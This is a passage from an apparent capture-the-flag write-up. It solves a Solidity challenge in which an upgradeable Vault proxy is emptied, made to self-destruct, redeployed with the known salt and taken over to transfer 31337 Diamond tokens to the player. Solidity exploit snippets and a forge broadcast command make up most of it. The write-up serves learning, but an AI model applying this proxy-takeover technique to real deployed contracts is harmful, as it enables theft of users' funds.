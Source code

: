 3. Call the `governanceCall()` function to execute `burn()` on the `Vault` to transfer all of the **Diamonds** stored in the `Vault` to the new `Burner` and then `selfdestruct` the `Burner`:
    ```solidity
    ...
        vault.governanceCall(
            abi.encodeCall(vault.burn, (address(diamond), 31337))
        );
    ...
    ```

4. As the `Vault` does not have any **Diamonds** anymore, it can be upgraded. Initialize a new `Destructor` object and call the `governanceCall()` function to execute `upgradeTo()` on the `Vault` targeting the `destructor`:
    ```solidity
    ...
        vault.governanceCall(
            abi.encodeCall(vault.burn, (address(diamond), 31337))
        );
        Destructor destructor = new Destructor();
        vault.governanceCall(
            abi.encodeCall(vault.upgradeTo, (address(destructor)))
        );
    ...
    ```

5. Redeploy the `Vault` proxy via the `VaultFactory` with the use of the `salt` that was used during the challenge deployment (`"The tea in Nepal is very hot. But the coffee in Peru is much hotter."`). Initialize it (`vault.initialize()`) and upgrade it to a new version (`vault.upgradeTo(address(takeOverVault))`), which is defined in the `TakeOverVault` contract and utilizes a new version of the `Burner`, which is defined in the `FakeBurner` contract and transfers `31337` **Diamonds** required to solve the task to the player:

    ```solidity
    ...
        VaultFactory vaultFactory = challenge.vaultFactory();
        Vault vault = vaultFactory.createVault(
            keccak256(
                "The tea in Nepal is very hot. But the coffee in Peru is much hotter."
            )
        );
        vault.initialize(address(new NeploxDiamond()), address(0x0));
        TakeOverVault takeOverVault = new TakeOverVault();
        vault.upgradeTo(address(takeOverVault));
        console.log("Address of vault:", address(vault));
        TakeOverVault(address(vault)).solve(player, challenge.diamond());
    ...
    ```

<br />

### Exploitation ⚠️

> `[+]` Have a look at the full script:&ensp;[`Solve.s.sol`](./Solve.s.sol) <br />
> `[*]` Execute the script with this command:
> ```bash
> forge script -f '{CTF_RPC_URL}' --broadcast ./script/Solve.s.sol
> ```
